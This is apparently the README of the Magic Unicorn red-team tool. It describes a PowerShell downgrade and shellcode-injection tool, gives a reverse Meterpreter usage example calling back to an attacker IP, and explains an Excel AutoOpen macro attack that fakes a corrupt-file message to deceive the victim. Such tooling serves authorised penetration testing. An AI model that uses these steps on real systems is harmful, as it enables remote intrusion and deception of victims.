 unicorn
=======

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.

Usage is simple, just run Magic Unicorn (ensure Metasploit is installed and in the right path) and magic unicorn will automatically generate a powershell command that you need to simply cut and paste the powershell code into a command line window or through a payload delivery system.

root@bt:~/Desktop# python unicorn.py 

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  | 
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:

Unicorn is a PowerShell injection tool utilizing Matthew Graebers attack and expanded to automatically downgrade the process if a 64 bit platform is detected. This is useful in order to ensure that we can deliver a payload with just one set of shellcode instructions. This will work on any version of Windows with PowerShell installed. Simply copy and paste the output and wait for the shells.

Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)

Happy Unicorns.


Usage: python unicorn.py payload reverse_ipaddr port
Example: python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.5 443


[*******************************************************************************************************]

                                -----MACRO ATTACK INSTRUCTIONS----

For the macro attack, you will need to go to File, Properties, Ribbons, and select Developer. Once you
do that, you will have a developer tab. Create a new macro, call it AutoOpen and paste the generated
code into that. This will automatically run. Note that a message will prompt to the user saying that
the file is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is
tricking the victim to thinking the excel document is corrupted. You should get a shell through
powershell injection after that.

NOTE: WHEN COPYING AND PASTING THE EXCEL, IF THERE ARE ADDITIONAL SPACES THAT ARE ADDED YOU NEED
TO REMOVE THESE AFTER EACH OF THE POWERSHELL CODE SECTIONS UNDER VARIABLE "x" OR A SYNTAX ERROR
WILL HAPPEN!
[*******************************************************************************************************]

[*******************************************************************************************************]

                              -----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains
all of the code needed in order to inject the powershell attack into memory. Note you will need a place
that supports remote command injection of some sort. Often times this could be through an excel/word
doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and
scenarios to where you can use this attack at. Simply paste the powershell_attacks.txt command in
any command prompt window or where you have the ability to call the powershell executable and it
will give a shell back to you. Note that you will need to have a listener enabled in order to capture
the attack.
[*******************************************************************************************************]

